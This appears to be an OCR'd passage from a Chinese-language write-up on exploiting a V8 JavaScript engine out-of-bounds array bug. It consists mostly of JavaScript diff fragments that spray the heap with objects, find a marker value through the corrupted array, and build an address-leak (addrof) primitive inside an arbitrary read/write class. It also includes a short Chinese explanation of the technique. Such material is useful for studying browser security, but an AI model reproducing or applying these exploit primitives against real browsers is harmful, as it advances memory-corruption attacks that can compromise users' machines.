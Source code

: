 ```
     oobArray.length=1;    // !=0 void from be huishou by GC,Elements will point to a null pointer
    for(let i=0;i&lt;100;i++)
    {
        let array=new ArrayBuffer(0x512);
+        let obj={'a':0x1234,'b':0x5678};
        arrays.push(array);
+        objs.push(obj);
        //%DebugPrint(array);    
    }        
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });

+let obj_index;
+let obj_offset;
+//find Objects

+for(let i=0;i&lt;maxSize;i++)
+{
+    let val=ct.f2i(oobArray[i]);
+    if(val===0x123400000000)
+    {
+        obj_offset=i;
+        console.log("[*]find target objecets in oobArray number ["+i+"]");
+        oobArray[i]=ct.i2f(0x123500000000);
+        break;
+    }
+}

+for(let i=0;i&lt;100;i++)
+{    
+    if(objs[i].a===0x1235){
+           console.log("[*]find target objs number ["+i+"]");
+        obj_index=i;
+        break;
+    }    
+}
```

制造一个可控对象obj，在通过oobArray泄露obj的属性a。要leak一个对象的地址，只需要将对象绑定到obj的a属性，然后oobArray泄露地址即可。

```
class ArbitraryRW
{
+    leak_obj(obj){
+        objs[obj_index].a = obj;        
+        return ct.f2i(oobArray[obj_offset]) - 1;
+    }
    ...
}
```
